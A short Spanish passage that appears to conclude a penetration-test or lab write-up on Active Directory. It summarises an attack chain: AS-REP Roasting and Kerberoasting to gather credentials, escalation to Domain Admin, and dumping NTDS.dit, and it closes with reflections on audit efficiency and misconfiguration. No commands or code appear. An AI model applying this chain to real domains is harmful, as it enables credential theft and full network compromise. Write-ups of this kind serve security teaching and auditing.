- **Explotación:** Uso de AS-REP Roasting y Kerberoasting para recolectar credenciales.
- **Compromiso Total:** Escalada a Domain Admin y volcado de la base de datos NTDS.dit.

> **Reflexión Estratégica:** En una auditoría real, la eficiencia es clave. Tras obtener las credenciales de `scott`, el paso lógico era saltar directamente al Kerberoasting. No obstante, ejecutar ambos ataques nos permite validar diversos escenarios de intrusión, demostrando que es posible comprometer un dominio incluso en fases donde aún no disponemos de ninguna contraseña válida.
{: .prompt-info }

> **Lección aprendida:** En el mundo de Active Directory, la **configuración es seguridad**. No siempre hace falta derribar la puerta; a veces, basta con saber qué ventanas se quedaron abiertas.
{: .prompt-tip }
